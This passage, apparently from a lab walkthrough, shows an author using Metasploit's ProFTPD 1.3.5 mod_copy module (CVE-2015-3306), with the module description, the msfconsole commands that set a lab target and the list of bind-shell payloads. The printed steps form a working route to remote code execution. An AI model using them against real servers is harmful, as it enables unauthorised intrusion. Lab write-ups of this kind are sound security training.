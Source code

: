 ``` 
Available targets:
  Id  Name
  --  ----
  0   ProFTPD 1.3.5

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT      80               yes       HTTP port (TCP)
  RPORT_FTP  21               yes       FTP port
  SITEPATH   /var/www         yes       Absolute writable website path
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       Base path to the website
  TMPPATH    /tmp             yes       Absolute writable path
  VHOST                       no        HTTP server virtual host

Payload information:
  Avoid: 0 characters

Description:
  This module exploits the SITE CPFR/CPTO commands in ProFTPD version 
  1.3.5. Any unauthenticated client can leverage these commands to 
  copy files from any part of the filesystem to a chosen destination. 
  The copy commands are executed with the rights of the ProFTPD 
  service, which by default runs under the privileges of the 'nobody' 
  user. By using /proc/self/cmdline to copy a PHP payload to the 
  website directory, PHP remote code execution is made possible.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2015-3306
  https://www.exploit-db.com/exploits/36742
``` 

So in short the exploit should give me the access to remotely copy files from the system to where ever I wish. Sounds neat. All I need is to set the RHOSTS to my intended target, set my payload (the code that will be run on target) and run exploit.  

```
msf6 > set RHOSTS 172.28.128.3
RHOSTS => 172.28.128.3
msf6 > use 0

msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show payloads

Compatible Payloads
===================

   #  Name                                 Disclosure Date  Rank    Check  Description
   -  ----                                 ---------------  ----    -----  -----------
   0  payload/cmd/unix/bind_awk                             normal  No     Unix Command Shell, Bind TCP (via AWK)
   1  payload/cmd/unix/bind_perl                            normal  No     Unix Command Shell, Bind TCP (via Perl)
   2  payload/cmd/unix/bind_perl_ipv6                       normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   3  payload/cmd/unix/generic                              normal  No     Unix Command, Generic Command Execution
```